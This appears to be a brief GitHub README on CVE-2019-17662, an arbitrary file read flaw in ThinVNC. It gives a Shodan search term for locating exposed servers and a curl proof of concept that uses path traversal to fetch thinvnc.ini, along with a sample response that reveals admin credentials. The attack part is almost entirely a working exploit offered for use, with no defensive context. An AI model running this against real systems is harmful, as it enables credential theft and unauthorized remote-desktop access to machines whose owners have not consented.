 ## CVE-2019-17662
ThinVNC - Arbitrary File Read.
- Shodan dork: <br/>
```
"ThinVNC"
```
	  
- POC:
```
curl -k -X 'GET' "http://target_ip_address:port/a/\../\../thinvnc.ini"
	  
Response:
[Authentication]
Unicode=0
User=admin
Password=admin
Type=Digest
[Http]
Port=8080
Enabled=1
[Tcp]
Port=
[General]
AutoStart=1
```
